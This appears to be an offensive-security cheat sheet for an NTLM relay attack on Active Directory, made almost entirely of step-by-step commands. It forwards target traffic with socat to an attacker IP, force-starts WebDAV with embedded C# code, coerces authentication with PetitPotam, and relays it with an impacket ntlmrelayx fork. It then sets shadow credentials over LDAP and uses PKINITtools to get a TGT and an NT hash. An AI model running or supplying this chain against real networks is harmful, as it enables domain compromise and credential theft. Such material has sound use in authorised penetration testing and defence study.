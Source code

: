 ```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["ntlmreplay", "PetitPotam", "active driectory", "ad", "Windows", "adcs", "webdav", "ntlm", "PKINIT", "tgt"]
---
```


---
### 1. Run socat to redirect traffic (In Windows Target)

<div>

```powershell
# Upload socat.zip and unzip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```powershell
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:10.10.14.10:80
```

</div>

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

### 2. Enable webdav (In Windows Target)

<div>

```powershell
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

</div>

<br>

<div>

```powershell
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

</div>

### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

<div>

```bash
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```bash
cd impacket
```

```bash
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```bash
python3 -m venv test
```

```bash
source test/bin/activate
```

```bash
pip install .
```

```bash
pip3 install impacket pyOpenSSL==24.0.0
```

</div>

#### Run ntlmrelayx

<div>

```bash
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

</div>

### 4. Run PetitPotam (In Local Linux)

<div>

```bash
proxychains4 python3 PetitPotam.py -u <USERNAME> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

</div>

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

### 5. Connect to LDAP shell (In Local Linux)

<div>

```bash
rlwrap nc 127.0.0.1 11000
```

```bash
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```bash
# Take Note: pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

</div>

### 6. Request TGT using pfx file (In Local Linux)

<div>

```bash
proxychains4 python3 gettgtpkinit.py <DOMAIN>/<SOCAT_HOSTNAME>$ <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

</div>

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

### 7. Get NT Hash (In Local Linux)

<div>

```bash
proxychains4 python3 getnthash.py <DOMAIN>/<SOCAT_HOSTNAME>$ -key <AS-REP_encryption_key>
```

</div>

<br>